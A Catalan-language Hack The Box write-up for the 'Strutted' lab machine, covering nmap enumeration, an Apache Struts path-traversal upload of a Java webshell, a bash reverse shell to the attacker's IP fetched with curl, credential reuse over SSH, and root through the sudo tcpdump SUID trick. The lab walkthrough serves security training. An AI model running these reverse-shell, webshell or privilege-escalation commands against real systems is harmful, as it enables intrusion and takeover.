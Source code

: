 <p align="center">
  <img src="https://github.com/user-attachments/assets/4bfec8c2-a672-4525-9acc-e837fa0246d9" alt="strutter-htb-header" width="700" height="500">
</p>

---
## NMAP Scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
> nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.11.59

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.63 seconds
           Raw packets sent: 74489 (3.278MB) | Rcvd: 70332 (2.813MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
> nmap -sCV -p22,80 -Pn 10.10.11.59

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Jammy. D'altra banda, sabem que s'està aplicant Virtual Hosting i, per tant, s'ha d'afegir el domini strutted.htb a l'arxiu /etc/hosts per a que resolgui a la IP que pertoca.

## Web enumeration
La pàgina web permet la pujada d'imatges per compartir a través d'un enllaç. D'altra banda, menciona que hi ha disponible una imatge de Docker amb el mateix entorn de la web per veure de quina forma està configurat, així que ens el descarreguem i l'analitzem per poder detectar versions del software utilitzat i possibles vulnerabilitats en el codi.

![image](https://github.com/user-attachments/assets/de9807e4-cb97-43d5-b44e-b1e38b2fe753)

Un cop descarregat i descomprimit l'arxiu, hi ha diversos fitxers que són interessants a nivell d'informació. El primer és _tomcat-users.xml_, que ens permet saber que s'està utilitzant Apache Tomcat i, a més, mostra unes credencials d'accés d'administrador, que de moment no podem utilitzar enlloc.

![image](https://github.com/user-attachments/assets/0b7f4133-3437-43d6-aeb7-55704141cde3)

D'altra banda, podem observar que hi ha el fitxer _pom.xml_, un fitxer que es troba en tots els projectes de Maven i que conté tota la informació pel que fa a configuracions i dependències. D'aquest podem extreure totes les versions de les dependències utilitzades, entre les quals es troba Apache Struts 6.3.0.1, un framework pel disseny d'aplicacions web en Java.

![image](https://github.com/user-attachments/assets/dcb2cd7d-f196-4d58-b627-5f8b7723afea)

També es pot veure tota la sanitització que s'aplica a la pujada de fitxers per evitar que es pugui pujar un arxiu maliciós. En aquest cas, no només comprova que l'extensió de la imatge sigui la permesa sinó que també filtra segons el Content-Type i els _magic bytes_ per a impedir la manipulació d'imatges. Per tant, de moment no s'hi pot fer gran cosa.

![image](https://github.com/user-attachments/assets/bae76798-13ae-4475-b714-40fdf76b3722)

## Initial foothold
Si busquem la versió d'Apache Struts trobem que té una vulnerabilitat crítica de Path Traversal associada, que afecta a la pujada de fitxes a través de la manipulació de paràmetres dels interceptors. Els interceptors són funcionalitats que poden executar codi abans o després d'invocar una acció (en aquest cas, la pujada d'un arxiu). 

En concret, la vulnerabilitat es troba en _top.UploadFileName_, que permet el canvi de nom d'un fitxer un cop pujat i, per tant, saltant-nos totes les regles definides en el backend de la web. A més, el nom del fitxer permet la inclusió de "../../..", permetent el Path Traversal. Així doncs, podem pujar un fitxer arbitrari amb codi Java per executar comandes de forma remota, i el podem col·locar com si fos un directori més de la pàgina per poder accedir-hi.

![image](https://github.com/user-attachments/assets/232d4f5b-37b2-4fbf-98c1-b5beb54d9e2e)

> És important que el fitxer que es pugi inicialment tingui la forma d'una imatge. Per tant, sense comptar el codi de la webshell de Java, la resta de camps (extensió inicial, content-type i magic bytes) han de correspondre als d'una imatge.

Com hem vist a la petició anterior, hem creat un arxiu amb una webshell en Java a la que podem accedir pel directori _/shell i executar comandes. Podem també, doncs, establir una consola interactiva com l'usuari que corre el servei web: tomcat.

![image](https://github.com/user-attachments/assets/17a088e8-53cf-4906-8308-9877b5d48ea4)

Es pot fer de diverses maneres, sent una de les més simples crear a la màquina atacant una reverse shell i transferint-la a la víctima mitjançant HTTP per després executar-la.
````bash
# Màquina atacant
> echo "bash -i >& /dev/tcp/10.10.16.68/4321 0>&1" > revshell.sh
> python3 -m http.server 8008

# Màquina víctima
[...]&cmd=curl http://10.10.16.68:8008/revshell.sh -o /tmp/revshell.sh
[...]&cmd=chmod +x /tmp/revshell.sh
[...]&cmd=bash /tmp/revshell.sh
````
![image](https://github.com/user-attachments/assets/7a725ab0-a2b7-415f-a3b1-e7ca15f64c07)

I tenim una consola amb l'usuari _tomcat_.

## User
Veient el _/etc/passwd_, trobem dos altres usuaris al host: _james_ i _root_.
````bash
> cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
james:x:1000:1000:Network Administrator:/home/james:/bin/bash
````
Si recordem l'estructura que tenia la web en el comprimit descarregat al principi, hi havia un arxiu on hi havia credencials anomenat _tomcat-users.xml_. Tot i que la contrasenya d'aquell arxiu no era correcta, el host en té una diferent que potser correspon a la de l'usuari _james_. Si provem a loguejar-nos com aquest usuari amb la contrasenya trobada, no ho aconseguirem.

![image](https://github.com/user-attachments/assets/ea2fd473-d240-4bd2-a36d-e352419b4d86)
![image](https://github.com/user-attachments/assets/f1491ec7-7efe-44f7-bfc8-63f52d2f93dd)

Tanmateix, si provem a iniciar sessió a través de SSH, sí que podrem.

![image](https://github.com/user-attachments/assets/26193c8f-0977-4ca1-a532-8f41cd5e526f)

> Això es possible gràcies a que a l'arxiu de configuració del servei de Tomcat hi ha assignat "NoNewPrivileges=true", motiu pel qual no podem convertir-nos en cap usuari des de l'usuari tomcat.
## Privilege escalation
Si mirem els permisos que té l'usuari _james_ a nivell d'executar comandes amb privilegis, trobem que pot executar el binari _TCPdump_ amb privilegis de root.
````bash
> sudo -l

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
````
[GTFOBins](https://gtfobins.github.io/) té una col·lecció de peces de codi per escalar privilegis utilitzant certs binaris i amb certes condicions (sudo, suid...). Entre aquestes, es troba l'escalada mitjançant l'execució privilegiada de comandes a través de _TCPdump_ de la següent manera.
````bash
COMMAND=''
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
````
Si 'COMMAND=chmod +s /bin/bash', assignem el bit SUID a la consola bash, amb lo qual podrem establir-nos una consola privilegiada amb "bash -p".

![image](https://github.com/user-attachments/assets/3c876931-eb45-43d7-af70-d126adca5b2e)

I ja som root al host.
